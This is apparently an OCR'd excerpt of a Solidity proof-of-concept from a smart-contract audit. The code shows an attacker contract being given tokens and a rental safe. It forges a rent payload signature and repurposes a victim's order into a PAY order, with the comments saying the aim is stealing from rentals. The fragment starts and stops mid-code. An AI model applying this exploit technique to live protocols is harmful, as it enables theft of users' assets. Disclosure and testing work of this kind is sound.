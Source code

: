 ```solidity
        );

        // send arbitrary # of ERC20 tokens for rental payment to our attackerContract
        erc20s[0].mint(address(attackerContract), victimRentalOrders.length); // we will be stealing from two rentals and use 1 wei for each

        // create a safe for our attackerContract
        address attackerSafe;
        { // to fix stack too deep errors
            address[] memory owners = new address[](1);
            owners[0] = address(attackerContract);
            attackerSafe = factory.deployRentalSafe(owners, 1);
        }
        attackerContract.storeSafe(attackerSafe);
        
        // obtain generic signature for `RentPayload` 
        // this is done via the front-end for any order and we will then use matching `OrderMetadata.rentDuration` and `OrderMetadata.hooks` fields when creating our new order
        // `RentPayload.intendedFulfiller` will be our attackerContract and `RentPayload.fulfillment` will be our attackerContract's safe
        // any expiration given to us by the front-end would do since we will be executing these actions programmatically
        RentPayload memory rentPayload = RentPayload(
            OrderFulfillment(attackerSafe), 
            metadata, 
            block.timestamp + 100, 
            address(attackerContract)
        ); // using Alice's metadata (order) as an example, but could realistically be any order

        // generate the signature for the payload (simulating signing an order similar to Alice's (metadata only) via the front end)
        bytes memory signature = _signProtocolOrder(
            rentalSigner.privateKey,
            create.getRentPayloadHash(rentPayload)
        );

        // ------ Prep `attackerContract` ------ //

        // precompute `validate()` calldata for new order (PAY order) for on-chain validation
        // re-purpose Alice's order (for simplicity) for our use by replacing all necessary fields with values that pertain to our new order
        order.parameters.offerer = address(attackerContract);
        { // to fix stack too deep errors
            ConsiderationItem[] memory considerationItems = new ConsiderationItem[](0);
            order.parameters.consideration = considerationItems; // no consideration items for a PAY order

            OfferItem[] memory offerItems = new OfferItem[](2);
            // offerItems[0] will change dynamically in our attacker contract
            offerItems[1] = OfferItem({
                itemType: ItemType.ERC20,
                token: address(erc20s[0]),
                identifierOrCriteria: uint256(0),
                startAmount: uint256(1),
                endAmount: uint256(1)
            });

            order.parameters.offer = offerItems;

            order.parameters.totalOriginalConsiderationItems = 0; // 0 since this is a PAY order
            
            // store `validate()` calldata for PAY order in attackerContract for later use
            attackerContract.storePayOrder(order);
```